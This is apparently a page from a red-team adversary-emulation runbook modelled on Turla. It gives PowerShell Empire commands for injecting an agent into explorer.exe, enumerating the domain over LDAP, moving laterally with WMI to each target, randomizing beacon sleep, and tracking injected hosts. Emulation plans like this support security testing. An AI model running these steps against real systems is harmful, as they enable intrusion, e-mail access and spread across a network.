 Privilege Escalation: non-System process (ie. explorer.exe) 
Explorer.exe is running under a logged-in user profile. This is a good process to hijack if we want to interact with user e-mail.
1.  > psinject TurlaHTTP <PID of explorer.exe> 
   A PSEmpire agent is injected into the running process (explorer.exe) and a new agent will call-back and get tasked with the autorun tasks. 2.  > back
Back to agents menu
3.  > interact <tku\VDrago explorer agent> 
The output from autorun tasks executed by the new agent will scroll down the screen.

Discovery: domain enumeration 
From the new agent, we perform network enumeration by running the following commands in Empire
1. > scriptimport scripts/GetLDAPComputers.ps1  
Loads the script into memory of agent process
2. > scriptcmd GetLDAPComputers  
Query LDAP for �computer� objects in Domain OU

Lateral Movement: Run only on the Empire targets computers.
Ensure Lariat is running. 
To perform lateral movement with PowerShell Empire, run the following commands from Empire
1. > interact <tku\VDrago explorer agent>
You may already be interacting with this agent
2. > usemodule lateral_movement/invoke_wmi
3. > info
4. > set Listener TurlaHTTP  

5. Loop: Perform these two commands for each Empire target in Targets List section 
a. > set ComputerName <target computer name> 
b. > run

Wait for the agent to call-back and execute its autorun tasks. 

6. (Optional) Adjust agent call-back interval � repeat for every active PSE agent 
a. > agents   
b. > interact <agent id>  
c. > sleep <random number from 250-350>  
d. > back  
Discovery: host enumeration
Automated during agent check-in with �autorun enum.rc� script in 'Discovery: Process enumeration' Step 3. 
Process Injection: to user process:
For each ComRAT target in the Targets List section perform the following steps from PSEmpire 
1. > agents  
2. > autorun clear   
3. > interact <target id>  

4. > ps explorer  (take note of the local user name) 
5. > psinject TurlaHTTP <explorer pid>
  
6. > agents 
7. > rename <new agent id> COMRAT1
'New agent ID' will be the one that just got created from the process injection.
Each host infected with ComRAT will get renamed consecutively. eg. COMRAT2, COMRAT3
8. > interact <COMRATX> 
Replace COMRATX with whichever ComRAT injected host name. eg. COMRAT1

